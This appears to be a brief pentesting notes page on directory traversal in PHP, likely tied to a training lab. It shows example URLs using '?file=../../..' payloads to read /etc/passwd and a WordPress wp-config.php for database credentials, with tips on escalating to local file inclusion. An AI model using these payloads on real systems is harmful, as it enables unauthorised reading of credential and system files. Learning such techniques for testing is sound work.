 ```yaml
---
description: Dot-Dot-Slash!
---
```


# Directory Traversal

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md" %}

## PHP

Do you have a file parameter in the URL bar?

* <mark style="color:yellow;">?file=</mark>

```
dev.holo.live/img.php?file=../../../../../../../../../../etc/passwd
```

* If this works, this can ultimately lead to LFI
* This will then allow us to include a file
* Does the site have a robots.txt?&#x20;
  * Check the contents and include the file
  * This could be a configuration page with sensitive information
* For example, wp-config.php contains the database's credentials!

```
dev.holo.live/img.php?file=../../../../../../../../../../var/www/wordpress/wp-config.php
```
